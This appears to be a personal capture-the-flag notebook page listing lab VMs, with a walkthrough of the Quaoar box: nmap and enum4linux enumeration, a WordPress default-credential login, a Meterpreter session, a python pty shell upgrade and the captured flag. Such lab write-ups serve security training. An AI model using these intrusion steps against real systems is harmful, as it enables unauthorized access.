






Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
QuaoarCTFHackfest2016
Nmap scan report for 192.168.56.118Host is up (0.00015s latency).
Not shown: 991 closed ports
PORT STATE SERVICE
22/tcp open ssh
53/tcp open domain
80/tcp open http
110/tcp open pop3
139/tcp open netbios-ssn
143/tcp open imap
445/tcp open microsoft-ds
993/tcp open imaps
995/tcp open pop3s
MAC Address: 08:00:27:A9:D9:76 (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.118
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-10 22:42 EST
Nmap scan report for 192.168.56.118
Host is up (0.00049s latency).
Not shown: 65526 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
| 2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_ 256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp open domain ISC BIND 9.8.1-P1
| dns-nsid:
|_ bind.version: 9.8.1-P1
80/tcp open http Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: STLS RESP-CODES CAPA SASL TOP UIDL PIPELINING
|_ssl-date: 2019-11-10T22:42:47+00:00; -5h00m02s from scanner time.
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open imap Dovecot imapd
|_imap-capabilities: LITERAL+ STARTTLS capabilities IDLE post-login IMAP4rev1 have more OK SASL-IR listed LOGINDISABLEDA0001 Pre-login LOGIN-REFERRALS ENABLE ID
|_ssl-date: 2019-11-10T22:42:46+00:00; -5h00m02s from scanner time.
445/tcp open netbios-ssn Samba smbd 3.6.3 (workgroup: WORKGROUP)
993/tcp open ssl/imaps?
|_ssl-date: 2019-11-10T22:42:46+00:00; -5h00m03s from scanner time.
995/tcp open ssl/pop3s?
|_ssl-date: 2019-11-10T22:42:46+00:00; -5h00m03s from scanner time.
MAC Address: 08:00:27:A9:D9:76 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -4h10m02s, deviation: 2h02m29s, median: -5h00m02s
|_nbstat: NetBIOS name: QUAOAR, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Unix (Samba 3.6.3)
| NetBIOS computer name:
| Workgroup: WORKGROUP\x00
|_ System time: 2019-11-10T17:42:34-05:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
TRACEROUTE
HOP RTT ADDRESS
1 0.49 ms 192.168.56.118
OS and Service detection performed
root@kali:~# enum4linux 192.168.56.118
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Nov 10 22:46:33 2019
==========================
| Target Information |
==========================
Target ........... 192.168.56.118
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
======================================================
| Enumerating Workgroup/Domain on 192.168.56.118 |
======================================================
[+] Got domain/workgroup name: WORKGROUP
==============================================
| Nbtstat Information for 192.168.56.118 |
==============================================
Looking up status of 192.168.56.118
QUAOAR <00> - B <ACTIVE> Workstation Service
QUAOAR <03> - B <ACTIVE> Messenger Service
QUAOAR <20> - B <ACTIVE> File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> Master Browser
WORKGROUP <1d> - B <ACTIVE> Master Browser
WORKGROUP <1e> - <GROUP> B <ACTIVE> Browser Service Elections
WORKGROUP <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
MAC Address = 00-00-00-00-00-00
=======================================
| Session Check on 192.168.56.118 |
=======================================
[+] Server 192.168.56.118 allows sessions using username '', password ''
=============================================
| Getting domain SID for 192.168.56.118 |
=============================================
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
========================================
| OS information on 192.168.56.118 |
========================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.56.118 from smbclient:
[+] Got OS info for 192.168.56.118 from srvinfo:
QUAOAR Wk Sv PrQ Unx NT SNT Quaoar server (Samba, Ubuntu)
platform_id : 500
os version : 4.9
server type : 0x809a03
===============================
| Users on 192.168.56.118 |
===============================
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody Name: nobody Desc:
index: 0x2 RID: 0x3e8 acb: 0x00000010 Account: viper Name: viper Desc:
index: 0x3 RID: 0x3ea acb: 0x00000010 Account: wpadmin Name: Desc:
index: 0x4 RID: 0x3e9 acb: 0x00000010 Account: root Name: root Desc:
user:[nobody] rid:[0x1f5]
user:[viper] rid:[0x3e8]
user:[wpadmin] rid:[0x3ea]
user:[root] rid:[0x3e9]
===========================================
| Share Enumeration on 192.168.56.118 |
===========================================
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
IPC$ IPC IPC Service (Quaoar server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP
[+] Attempting to map shares on 192.168.56.118
//192.168.56.118/print$ Mapping: DENIED, Listing: N/A
//192.168.56.118/IPC$ Mapping: OK Listing: DENIED
======================================================
| Password Policy Information for 192.168.56.118 |
======================================================
[+] Attaching to 192.168.56.118 using a NULL share
[+] Trying protocol 445/SMB...
[+] Found domain(s):
[+] QUAOAR
[+] Builtin
[+] Password Info for Domain: QUAOAR
[+] Minimum password length: 5
[+] Password history length: None
[+] Maximum password age: Not Set
[+] Password Complexity Flags: 000000
[+] Domain Refuse Password Change: 0
[+] Domain Password Store Cleartext: 0
[+] Domain Password Lockout Admins: 0
[+] Domain Password No Clear Change: 0
[+] Domain Password No Anon Change: 0
[+] Domain Password Complex: 0
[+] Minimum password age: None
[+] Reset Account Lockout Counter: 30 minutes
[+] Locked Account Duration: 30 minutes
[+] Account Lockout Threshold: None
[+] Forced Log off Time: Not Set
[+] Retieved partial password policy with rpcclient:
Password Complexity: Disabled
Minimum Password Length: 5
================================
| Groups on 192.168.56.118 |
================================
[+] Getting builtin groups:
[+] Getting builtin group memberships:
[+] Getting local groups:
[+] Getting local group memberships:
[+] Getting domain groups:
[+] Getting domain group memberships:
=========================================================================
| Users on 192.168.56.118 via RID cycling (RIDS: 500-550,1000-1050) |
=========================================================================
[I] Found new SID: S-1-5-21-2958147020-2665463078-3873466888
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1001 Unix User\wpadmin (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-2958147020-2665463078-3873466888 and logon username '', password ''
S-1-5-21-2958147020-2665463078-3873466888-500 *unknown*\*unknown* (8)
S-1-5-21-2958147020-2665463078-3873466888-501 QUAOAR\nobody (Local User)
S-1-5-21-2958147020-2665463078-3873466888-513 QUAOAR\None (Domain Group)
S-1-5-21-2958147020-2665463078-3873466888-1000 QUAOAR\viper (Local User)
S-1-5-21-2958147020-2665463078-3873466888-1001 QUAOAR\root (Local User)
S-1-5-21-2958147020-2665463078-3873466888-1002 QUAOAR\wpadmin (Local User)
===============================================
| Getting printer info for 192.168.56.118 |
===============================================
No printers returned.
enum4linux complete on Sun Nov 10 22:46:55 2019
--> wordpress
---→ go to /wordpress/wp-admin
-----→ use the default credentials admin/admin



meterpreter > ls
[-] stdapi_fs_stat: Operation failed: 1
meterpreter > dir
[-] stdapi_fs_chdir: Operation failed: 1
meterpreter > help
Core Commands
=============
Command Description
------- -----------
? Help menu
background Backgrounds the current session
bg Alias for background
bgkill Kills a background meterpreter script
bglist Lists running background scripts
bgrun Executes a meterpreter script as a background thread
channel Displays information or control active channels
close Closes a channel
disable_unicode_encoding Disables encoding of unicode strings
enable_unicode_encoding Enables encoding of unicode strings
exit Terminate the meterpreter session
get_timeouts Get the current session timeout values
guid Get the session GUID
help Help menu
info Displays information about a Post module
irb Open an interactive Ruby shell on the current session
load Load one or more meterpreter extensions
machine_id Get the MSF ID of the machine attached to the session
migrate Migrate the server to another process
pry Open the Pry debugger on the current session
quit Terminate the meterpreter session
read Reads data from a channel
resource Run the commands stored in a file
run Executes a meterpreter script or Post module
secure (Re)Negotiate TLV packet encryption on the session
sessions Quickly switch to another session
set_timeouts Set the current session timeout values
sleep Force Meterpreter to go quiet, then re-establish session.
transport Change the current transport mechanism
use Deprecated alias for "load"
uuid Get the UUID for the current session
write Writes data to a channel
Stdapi: File system Commands
============================
Command Description
------- -----------
cat Read the contents of a file to the screen
cd Change directory
checksum Retrieve the checksum of a file
chmod Change the permissions of a file
cp Copy source to destination
dir List files (alias for ls)
download Download a file or directory
edit Edit a file
getlwd Print local working directory
getwd Print working directory
lcd Change local working directory
lls List local files
lpwd Print local working directory
ls List files
mkdir Make directory
mv Move source to destination
pwd Print working directory
rm Delete the specified file
rmdir Remove directory
search Search for files
upload Upload a file or directory
Stdapi: Networking Commands
===========================
Command Description
------- -----------
portfwd Forward a local port to a remote service
Stdapi: System Commands
=======================
Command Description
------- -----------
execute Execute a command
getenv Get one or more environment variable values
getpid Get the current process identifier
getuid Get the user that the server is running as
kill Terminate a process
localtime Displays the target system's local date and time
pgrep Filter processes by name
pkill Terminate processes by name
ps List running processes
shell Drop into a system command shell
sysinfo Gets information about the remote system, such as OS
Stdapi: Audio Output Commands
=============================
Command Description
------- -----------
play play an audio file on target system, nothing written on disk
meterpreter > shell
Process 12809 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
python -c 'import pty; pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@Quaoar:$
www-data@Quaoar:/$ cd home
cd home
www-data@Quaoar:/home$ ls
ls
wpadmin
www-data@Quaoar:/home$ cd wpadmin
cd wpadmin
www-data@Quaoar:/home/wpadmin$ ls
ls
flag.txt
www-data@Quaoar:/home/wpadmin$ cat flag.txt
cat flag.txt
2bafe61f03117ac66a73c3c514de796e
www-data@Quaoar:/home/wpadmin$
www-data@Quaoar:/$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description: Ubuntu 12.04 LTS
Release: 12.04
Codename: precise
www-data@Quaoar:/$



FIN